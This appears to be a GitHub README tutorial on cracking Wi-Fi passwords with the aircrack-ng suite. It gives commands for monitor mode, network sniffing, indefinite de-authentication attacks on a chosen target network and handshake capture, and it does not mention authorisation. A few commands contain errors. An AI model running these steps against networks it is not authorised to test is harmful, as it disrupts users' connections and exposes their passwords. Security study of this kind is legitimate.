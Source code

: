 ## Wireless-Access-Point-Cracking

### Objective
To capture and decrypt a Wi-Fi access point’s password hash by leveraging monitor mode to intercept data from nearby networks.

### Skills Learned
* Network sniffing
* De-authentication attacks
* Password cracking
* Use of Wi-Fi hacking tools (airodump-ng, aireplay-ng, aircrack-ng, hashcat)

### Tools Used
* Kali Linux (or other Linux distribution with Wi-Fi hacking tools)
* Wireless network adapter with monitor mode capability


### Steps

#### 1. Enable Monitor Mode:
To start, ensure you have a compatible wireless card that supports **Monitor Mode**. This allows you to capture packets from surrounding networks without connecting to them. Run the following commands:

1.1 Identify your wireless card:
   
    
```bash
    
    ifconfig
    iwconfig
    
```
    
1.2 Set the wireless card to **Monitor Mode**:
    
```bash
    
    sudo ifconfig <interface> down
    sudo iwconfig <interface> mode monitor
    sudo ifconfig <interface> up
    
```
#### *** Enable Monitor mode with *airmon-ng*
  Sometimes we get error while changing the card mode with the lasts steps, so we can do it with   airmon-ng:
   ```bash
   sudo airmon-ng start <interface>

   ```
  ##### 1. Sometimes there are Processes that might interfere with setting monitor mode. When that's the case we have to *Kill Conflict Processes*
   ```bash
   sudo airmon-ng check kill

   ```
 
1.3 Verify with `iwconfig`.


#### 2. Network Discovery:
Now that your wireless card is in Monitor Mode, you can start capturing network traffic, specifically aiming to intercept a **four-way handshake** from a target wireless access point (AP).

2.1 We'll use the next command to "Sniff" all the wireless access points around you.
   ```bash
   airodump-ng <interface>

   ```
This will display a list of wireless networks, their BSSIDs (MAC addresses), channels, and other information.

2.2 Choose a network to target. Note its BSSID and channel. (copy them to some note)
   Ctrl + C when you found the Wireless network

2.3 We'll start the "Sniffing" process again, however, we're only going to "Sniff" one access point.
   ```bash
   airodump-ng -c <Channel> ---bssid <MAC address> -w <file name that we're going to write all of this in> wlan <name of the wireless interface>

   ```   

#### 3. De-authentication Attack:
Tool: aireplay-ng
Purpose: To force devices to re-authenticate, capturing the handshake.
How-to: Use aireplay-ng to send de-authentication frames to the target network, causing devices to disconnect.
3.1 Well use the next command to De-authenticate
   ```bash
   aireplay-ng -0 0 -a <MAC address of Wireless Access Point>

   ```
   the - 0 0 means it'll send de authentication packets indefinitely until we control C the program  and then it'll stop de authenticating. 

3.2 Ctrl + C after a few seconds/minutes so it discconects devices from the WAP.

#### 4. Capturing Handshake:
Tool: airodump-ng
Purpose: To capture the four-way handshake during re-authentication.
How-to: Continue running airodump-ng with the target network's channel and BSSID to capture the handshake.

4.1 After the De-authentication some devices will try to reconnect to the WAP, so go back to step 2.3 and "Sniff" the access point.

4.2 When someone connects it, well catch the WPA 2 Handshakes with the hashed value of the Password.

4.3 When you see the WPA Handshake, ctrl + C this program.

4.4 Youll see that you have 4 different files on your desktop, well only use the one that ends with *.cap*
    Inside of it is the 4-way handshake with the hash value of the password.
    
#### 5. Cracking the Hash:
Tools: aircrack-ng or hashcat
Purpose: To break the hashed password.
How-to: Use aircrack-ng to attempt a brute-force attack with a wordlist. hashcat can be used for more advanced attacks and GPU acceleration.


 
